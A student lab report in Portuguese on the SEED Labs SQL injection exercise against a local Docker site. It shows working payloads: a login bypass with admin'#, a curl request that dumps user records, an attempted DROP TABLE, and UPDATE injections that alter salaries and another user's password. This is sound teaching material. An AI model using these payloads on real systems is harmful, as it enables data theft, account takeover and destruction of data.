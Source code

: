 # SQL Injection Attack

## Setup

Começámos por correr os seguintes comandos no terminal:

```bash
sudo nano etc/hosts     # para colocar '10.9.0.5 www.seed-server.com'

$ dcbuild               
$ dcup                  

$ dockps
$ docksh ##             # Abrir uma shell do MySQL container
$ mysql -u root -pdees  # Executar o MySQL com utilizador root
$ use sqllab_users;     # Abrir a base de dados
```

## Tasks

### Task 1: 

A tarefa consiste em selecionar os dados do utilizador "Alice":

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

O resultado:
![Alt text](./images/image8-1.png)

###  Task 2: 

#### Task 2.1 

Acedemos ao site "www.seed-server.com" disponibilizado pelo container Docker e observámos que a *query* era frágil, uma vez que o input do utilizador não era verificado e executámos o seguinte código:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name='admin'# and Password=’$hashed_pwd’
```

Obtívemos assim os dados do administrador:

![Alt text](./images/image8-2.png)

#### Task 2.2

O ataque será agora feito através de um pedido GET:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Obtendo-se assim a página HTML com os dados pessoais dos users:

![Alt text](./images/image8-3.png)

#### Task 2.3

Adicionámos agora código de forma a causar um side-effect no servidor:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```
A operação não chegou a ser executada devido a um erro:

![Alt text](./images/image8-4.png)

Segundo o [manual](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão de MySQL utilizada pelo servidor contém uma proteção que impede a execução de múltiplas queries, não sendo possível realizar o ataque.

### Task 3: 

#### Task 3.1

Depois de entrar com uma conta do sistema, podemos editar os dados pessoais.
Utilizámos o campo "SSN" para o ataque, da seguinte forma:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
SSN='10211002',Salary='9999999' WHERE ID=$id;
```

Conseguímos assim alterar o salário para o valor escolhido:

![Alt text](./images/image8-5.png)

#### Task 3.2
Para alterar o salário de outra pessoa usámos um código muito semelhante ao anterior:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
SSN='10213352',Salary='-9999999' WHERE Name='Boby'# WHERE ID=$id;
```

![Alt text](./images/image8-6.png)

#### Task 3.3

Para alterar a password de outra pessoa, temos que fazer o mesmo que a task anterior, mas desta vez temos que encriptar a password através da criptografia SHA1.
Para a password `ihackedyou`, o hash é `8b386dbd9fd6db15f6f943aa5e1705835b5039a2`.

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
SSN='10213352', password='8b386dbd9fd6db15f6f943aa5e1705835b5039a2' WHERE name='Boby'# WHERE ID=$id;
```

Conseguímos assim entrar na conta:

![Alt text](./images/image8-7.png)